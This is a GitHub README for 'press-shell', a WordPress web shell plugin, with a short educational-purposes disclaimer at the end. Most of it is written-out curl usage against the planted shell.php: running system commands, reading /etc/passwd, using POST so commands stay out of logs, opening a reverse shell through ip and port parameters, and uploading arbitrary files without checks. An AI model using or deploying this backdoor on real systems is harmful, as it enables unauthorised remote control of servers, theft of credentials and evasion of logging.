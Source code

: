 <p align='center'>
   <img src='.assets/backdoor.png' alt='' width='256' />
</p>

<h2 align='center'>press-shell</h2>

<p align='center'><i>Quick & dirty Wordpress Command Execution Shell.</i></p>

Execute shell  commands on  your wordpress  server. Uploaded  shell will
probably be at `<your-host>/wp-content/plugins/shell/shell.php`

### Installation

To install the shell, we are  assuming you have administrative rights to
Wordpress and can  install plugins since transferring a PHP  file to the
media  library  shouldn't work  anyway.  Otherwise,  you have  a  bigger
problem.

Simply upload  the zip  file located  in the Releases  section as  a new
extension and you're good to go.

### Usage

Using  the shell  is straightforward.  Simply pass  `sh` commands  as an
argument to the shell :

```sh
❯ curl 'http://host/.../shell.php?cmd=uname+-a'
Linux wordpress-server 2.6.32-21-generic-pae #32-Ubuntu SMP Fri Apr 16 09:39:35 UTC 2010 i686 GNU/Linux
```

You may  as well pass  these arguments in a  POST request, which  is the
recommended way to keep your commands out of logs.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=ls'
LICENSE
README.md
shell.php
```

More complex  commands are  also supported,  careful about  your quoting
though.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=cat /etc/passwd | grep -v "\(false\|nologin\)"'
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
```

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=python -c "from urllib.parse import urlencode; print(urlencode({\"cmd\": \"uname -a\"}))"'
cmd=uname+-a
```

You can also open a reverse  shell using the `ip` and `port` parameters.
The default port is `443`.

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'ip=127.0.0.1'
```

```sh
❯ curl 'http://host/.../shell.php' --data-urlencode 'ip=127.0.0.1' --data-urlencode 'port=1337'
```

There is also an option provided for convenience to upload a file to the
directory of the plugin *unconditionally and without checks*.

```sh
❯ curl 'http://host/.../shell.php' -F 'file=@some_file'
❯ curl 'http://host/.../shell.php' --data-urlencode 'cmd=ls'
LICENSE
README.md
shell.php
some_file
```

### Disclaimer

Running unathorized attacks to public or private servers is illegal. The
content  of this  repository is  for  educational purposes  only and  no
responsibility will be  taken by the authors  in case of ill  use of the
provided material.
